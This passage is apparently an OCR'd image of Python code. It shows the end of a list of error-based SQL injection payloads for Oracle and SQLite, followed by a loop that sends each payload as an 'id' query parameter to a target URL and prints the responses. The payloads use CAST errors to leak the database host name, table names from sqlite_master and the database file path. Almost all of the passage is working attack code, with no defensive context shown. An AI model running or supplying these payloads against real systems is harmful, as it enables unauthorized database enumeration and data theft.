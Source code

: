 ```python
    "' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT SYS_CONTEXT('USERENV', 'HOST') FROM dual) AS INT) -- ",
    # SQLite
    "' AND 1=CAST((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1) AS INT) -- ",
    "' AND 1=CAST((SELECT file FROM pragma_database_list LIMIT 1) AS INT) -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n")
```
